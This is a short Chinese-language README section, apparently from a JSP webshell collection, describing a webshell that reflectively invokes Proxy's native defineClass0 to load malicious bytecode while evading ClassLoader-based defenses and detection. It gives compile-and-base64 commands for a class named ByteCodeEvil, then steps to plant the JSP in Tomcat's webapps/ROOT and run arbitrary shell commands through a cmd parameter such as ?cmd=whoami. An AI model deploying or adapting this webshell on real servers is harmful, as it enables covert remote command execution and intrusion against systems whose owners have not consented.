 ### Proxy 的 native 方法 defineClass0 加载类字节码

说明：

反射调用 java.lang.reflect.Proxy 的 native 方法 defineClass0 向 JVM 注册类，本质上类似 ClassLoader 类型的木马，但是可以绕过对 ClassLoader 的相关防御，另外由于是 native 方法，可以绕过很多检测方式。

生成字节码(使用 2.jsp 中的类)：
```
javac ByteCodeEvil.java
java ByteCodeEvil
cat ByteCodeEvil.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问20.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/2.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```
